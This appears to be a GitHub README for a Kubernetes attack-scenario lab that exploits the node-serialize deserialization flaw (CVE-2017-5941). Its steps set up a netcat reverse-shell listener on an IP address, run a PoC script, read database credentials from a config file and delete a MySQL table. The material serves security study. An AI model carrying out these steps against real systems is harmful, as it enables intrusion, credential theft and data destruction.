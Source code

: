 ## CVE-2017-5941
https://nvd.nist.gov/vuln/detail/CVE-2017-5941#range-6741888 \
Target Application: Node \
Software Link: https://www.npmjs.com/package/node-serialize \
Version: 0.0.4 \
Writeup: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ \
Used PoCs: 
* https://packetstormsecurity.com/files/161356/Node.JS-Remote-Code-Execution.html
* https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

### Tactics Used
Initial Access: Application vulnerability \
Execution: Application exploit (RCE), Bash or cmd inside container \
Lateral Movement: Application credentials in configuration files \
Impact: Data destruction


### Steps to Reproduce
1- `minikube start` \
2- Use `kubectl apply -f <filename>` for all of the .yaml files in kube folder \
3- Forward port `kubectl port-forward pods/scenario-2-server-deployment-.... 4242:4242` \
4- Listen on port `1234` and your ip for TCP connections like `nc -l 144.122.139.40 1234` \
5- Run poc.py with your ip `./poc.py 144.122.139.40` \
6- Attacker runs `ls` and sees a file named `server.js` which includes database hostname, username, password, database name and important table called `person`
7- Attacker runs `mysql -h mysql-service -u user -p` then inputs the password to access the database \
8- Even though the output of Mysql is not seen, input is sent to the container. With this, the attacker can delete the person table with ease.

### Demo
[scenario-2.webm](https://github.com/HasanYldz/kubernetes-attack-scenarios/assets/56763025/c3188a89-8977-418b-aac8-c46c4197edbb)
